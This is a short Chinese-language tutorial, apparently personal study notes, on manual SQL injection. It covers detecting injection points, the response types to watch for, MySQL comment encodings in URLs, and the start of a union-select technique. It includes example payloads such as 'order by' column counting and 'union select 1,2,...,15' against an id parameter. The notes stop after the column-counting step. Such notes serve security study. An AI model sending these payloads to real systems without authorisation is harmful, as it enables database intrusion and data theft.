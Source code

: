> 1.注入点判断

在疑似注入点的地方或者参数后面尝试提交数据，从而进行判断是否存在SQL 注入漏洞。

![image-20240326190022183](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240326190022183.png)

> 2 主要关注的问题

| 回显         | 数据库中内容是否会回显在网页中   |
| ------------ | -------------------------------- |
| 数据库报错   | 数据库报错信息是否会回显在网页中 |
| 布尔类型状态 | 显示页面两种不同状态             |
| 延时         | 让数据库沉睡相应秒数             |

> mysql数据库中的注释

| 注释         | url中的表示 |
| ------------ | ----------- |
| 减减空格     | --+         |
| #            | %23         |
| 内联注释/**/ |             |



## 联合查询

适用数据库中的内容会回显到页面中来的情况。联合查询就是利用union select 语句，该语句会同时执行两条select 语句，实现跨库、跨 表查询。

> 必要条件 

1. 两条select 语句查询结果具有相同列数； 
2. 对应的列数据类型相同（特殊情况下，条件被放松）。

---

1.分析目标

```txt
?id=32
?id=33
select * from tbName where id=32
select * from tbName where id=32 union select ....
```

2.判断列数

```txt
?id=32 order by 1
?id=32 order by 2
...
?id=32 order by 15 正常
?id=32 order by 16 不正常
# 当前select 语句中具有15 列。
?id=32 union select null,null,null,null,null,null,null,null,null,null,null,null,null,null,null
?id=32 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15
```
